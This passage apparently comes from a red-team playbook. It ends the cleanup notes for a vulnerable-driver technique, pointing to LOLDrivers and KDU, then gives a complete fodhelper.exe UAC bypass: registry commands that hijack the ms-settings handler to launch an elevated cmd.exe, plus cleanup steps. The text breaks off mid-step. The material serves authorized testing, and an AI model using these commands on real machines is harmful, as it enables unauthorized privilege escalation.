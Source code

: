### Cleanup

- Is using sc.exe, stop and delete the service then restart the machine

### Notes

Drivers can be found in multiple places, including:

- Directly from vendor sites
- VirusTotal
- Aggregators like LOLDrivers and KDU
  - LOLDrivers: https://github.com/magicsword-io/LOLDrivers/tree/main/drivers
  - KDU: https://github.com/hfiref0x/KDU/

## UAC Bypass - via fodhelper.exe

User Account Control is not a security control but can cause issues with execution when attempting privileged operations

Move to a high-integrity execution context via fodhelper.exe and a Registry modification. Fodhelper.exe is one of many unpatched methods for bypassing UAC.

### Prerequisites

- Split-token admin account

### Guidance

Check for the existence of the target registry key. If it exists, note the value so that it can be restored after execution.

```
cmd> reg query HKCU\Software\Classes\ms-settings\Shell\Open\command
```

Modify the registry key and execute fodhelper.exe to obtain an elevated command prompt:

```
cmd> 
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\windows\system32\cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /d "" /f
c:\windows\system32\fodhelper.exe
```

### Cleanup

If the registry existed prior to execution, restore its value:

```
cmd> reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v {{ initial_command }} /f
```

Otherwise, delete the key:
